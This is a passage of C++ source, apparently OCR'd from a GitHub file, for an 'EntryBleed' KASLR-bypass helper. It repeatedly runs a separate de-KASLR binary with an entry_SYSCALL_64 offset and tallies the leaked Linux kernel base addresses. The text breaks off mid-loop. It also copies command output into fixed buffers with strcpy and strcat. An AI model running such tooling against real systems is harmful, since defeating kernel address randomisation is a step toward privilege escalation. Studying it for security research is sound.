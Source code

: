 

### Arquivo:"entryBleed_cpp.cpp"
```C
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <iostream>
#include <fstream>
#include <string>
#include <map>

using namespace std;

void execute_cmd(const char *cmd, char *result)
{
    char buf_ps[1024];
    char ps[1024] = {0};
    FILE *ptr;
    strcpy(ps, cmd);
    if ((ptr = popen(ps, "r")) != NULL)
    {
        while (fgets(buf_ps, 1024, ptr) != NULL)
        {
            strcat(result, buf_ps);
            if (strlen(result) > 1024)
                break;
        }
        pclose(ptr);
        ptr = NULL;
    }
    else
    {
        printf("popen %s error\n", ps);
    }
}

int main(int argc, char **argv)
{
    if (argc != 4)
    {
        puts("[*] Usage: ./binary dekaslr_path entry_SYSCALL_64_offset(in hex) max_loop");
        return -1;
    }

    string dekaslr_path = argv[1];
    string koffset = argv[2];
    string max_loop = argv[3];
    string cmd = dekaslr_path + " " + koffset;

    char result[0x1000] = {0};
    int max_tries = stoi(max_loop);

    map<string, unsigned int> base_record;

    for (size_t i = 0; i < max_tries; i++)
    {
        memset(result, 0, 0x100);
        execute_cmd(cmd.c_str(), result);
        // printf("%s\n", result);
        string key = result;
        if (base_record.find(key) != base_record.end())
        {
```